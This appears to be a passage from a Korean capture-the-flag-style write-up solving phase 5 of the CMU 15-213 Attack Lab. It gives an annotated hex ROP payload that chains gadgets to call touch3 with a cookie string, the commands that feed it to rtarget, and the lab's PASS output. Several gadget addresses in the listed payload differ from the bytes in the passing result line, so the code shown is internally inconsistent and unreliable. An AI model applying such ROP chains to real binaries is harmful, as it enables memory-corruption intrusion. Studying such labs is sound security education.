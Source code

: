 이제 위 내용을 종합해서 코드를 작성하면 아래처럼 된다.

```
// phase5.txt
00 00 00 00 00 00 00 00     /* padding */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00     /* movq %rsp, %rax */
a2 19 40 00 00 00 00 00     /* movq %rax, %rdi */
ab 19 40 00 00 00 00 00     /* popq %rax       */
48 00 00 00 00 00 00 00     /* 0x48            */
dd 10 40 00 00 00 00 00     /* movl %eax, %edx */
69 1a 40 00 00 00 00 00     /* movl %edx, %ecx */
13 1a 40 00 00 00 00 00     /* movl %ecx, %esi */
d6 a9 40 00 00 00 00 00     /* leaq (%rdi, %rsi, 1), %rax */
a2 19 40 00 00 00 00 00     /* movq %rax, %rdi */
fa 18 40 00 00 00 00 00     /* touch 3 address */
35 39 62 39 39 37 66 61     /* cookie string   */
00
```

이제 위 코드를 변환시키고 답을 확인하면 된다.

```
./hex2raw < phase5.txt > phase5-ans.txt
./rtarget < phase5-ans.txt
```

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```
